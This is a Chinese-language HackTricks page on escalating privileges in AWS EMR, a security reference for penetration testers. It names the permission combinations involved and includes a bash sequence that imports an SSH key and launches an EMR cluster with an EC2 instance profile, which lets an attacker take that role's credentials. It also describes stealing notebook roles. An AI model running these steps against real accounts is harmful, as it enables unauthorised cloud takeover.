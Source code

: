 # AWS - EMR Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## EMR

更多关于 **EMR 的信息** 在：

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

拥有这些权限的攻击者可以 **运行一个新的 EMR 集群并附加 EC2 角色**，并尝试窃取其凭证。\
请注意，为了做到这一点，您需要 **知道账户中导入的一些 ssh 私钥** 或导入一个，并能够 **在主节点上打开 22 端口**（您可能能够通过 `--ec2-attributes` 中的 `EmrManagedMasterSecurityGroup` 和/或 `ServiceAccessSecurityGroup` 属性做到这一点）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
注意如何在 `--service-role` 中指定 **EMR 角色**，以及在 `--ec2-attributes` 中指定 **ec2 角色**。然而，这种技术仅允许窃取 EC2 角色凭证（因为您将通过 ssh 连接），而无法获取 EMR IAM 角色。

**潜在影响：** 提升到指定的 EC2 服务角色。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

拥有这些权限的攻击者可以进入 **AWS 控制台**，创建一个 Notebook 并访问它以窃取 IAM 角色。

{% hint style="danger" %}
即使在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。
{% endhint %}

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

仅凭此权限，攻击者将能够访问 **Jupyter Notebook 并窃取与之关联的 IAM 角色**。\
Notebook 的 URL 是 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
即使在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。
{% endhint %}

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
